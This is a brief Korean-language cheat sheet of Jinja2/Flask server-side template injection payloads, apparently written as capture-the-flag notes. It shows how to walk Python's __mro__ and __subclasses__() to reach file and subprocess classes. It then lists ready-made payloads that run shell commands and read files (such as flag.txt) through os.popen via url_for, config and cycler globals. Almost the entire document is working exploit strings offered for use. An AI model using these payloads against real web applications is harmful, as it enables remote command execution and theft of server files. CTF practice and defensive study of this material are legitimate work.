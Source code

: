 # 기본
1. {{ ''.__class__.__mro__ }} 를 쳐서 <type 'object'>의 인덱스를 찾음.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__() }}

# 파일
1. 위 mro의 subclass 에서 <type 'file'>의 인덱스를 찾는다.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__()[`인덱스`].open(`파일 경로`).read() }}
3. 만약 <type 'file'>이 없다면 subprocess.Popen 같은걸 이용하자.

# 기타 코드들
## 파일 읽기
```
{{ ''.__class__.__mro__[1].__subclasses__()[408]\('pwd',stdout=-1).communicate() }}
```
```
{{ url_for.__globals__.os.popen("cat flag.txt").read() }}
{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```
